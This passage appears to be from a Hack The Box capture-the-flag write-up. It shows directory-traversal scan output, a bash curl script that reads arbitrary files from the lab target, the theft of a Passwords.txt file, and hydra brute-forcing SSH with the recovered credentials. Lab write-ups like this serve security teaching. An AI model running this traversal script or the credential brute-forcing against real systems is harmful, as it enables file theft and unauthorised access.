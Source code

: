 ```

[*] HTTP Status: 404 | Testing Path: http://10.10.10.184:80/../boot.ini
[*] HTTP Status: 404 | Testing Path: http://10.10.10.184:80/../windows/win.ini
[*] HTTP Status: 404 | Testing Path: http://10.10.10.184:80/../windows/system32/drivers/etc/hosts
[*] HTTP Status: 404 | Testing Path: http://10.10.10.184:80/../../boot.ini
[*] HTTP Status: 404 | Testing Path: http://10.10.10.184:80/../../windows/win.ini
[*] HTTP Status: 404 | Testing Path: http://10.10.10.184:80/../../windows/system32/drivers/etc/hosts
[*] HTTP Status: 404 | Testing Path: http://10.10.10.184:80/../../../boot.ini

[*] Testing Path: http://10.10.10.184:80/../../../windows/win.ini <- VULNERABLE!
```

Gotcha! Three levels of traversal is all you need. With that in mind, I wrote a simple script to read files.

<div class="filename"><span>read.sh</span></div>

```
#!/bin/bash

HOST=10.10.10.184
TRAV=$(urlencode "../../../")
FILE=$1

curl -s \
     "http://${HOST}/${TRAV}${FILE}"

echo
```

{% include image.html image_alt="0be5d67b.png" image_src="/8109bc69-b023-4f06-9997-c6dd7da07f66/0be5d67b.png" %}

Let's see if we can read `Passwords.txt` from Nathan's Desktop.

{% include image.html image_alt="77e3c780.png" image_src="/8109bc69-b023-4f06-9997-c6dd7da07f66/77e3c780.png" %}

Awesome!

### Hail Hydra!

Now that we have a list of usernames and passwords, let's use them with `hydra` against SSH and see what we've got.

{% include image.html image_alt="a1cab4b0.png" image_src="/8109bc69-b023-4f06-9997-c6dd7da07f66/a1cab4b0.png" %}

Sweet.

## Low-Privilege Shell

Time to get ourselves a shell.


[1]: https://www.hackthebox.eu/home/machines/profile/235
[2]: https://www.hackthebox.eu/home/users/profile/158833
[3]: https://www.hackthebox.eu/
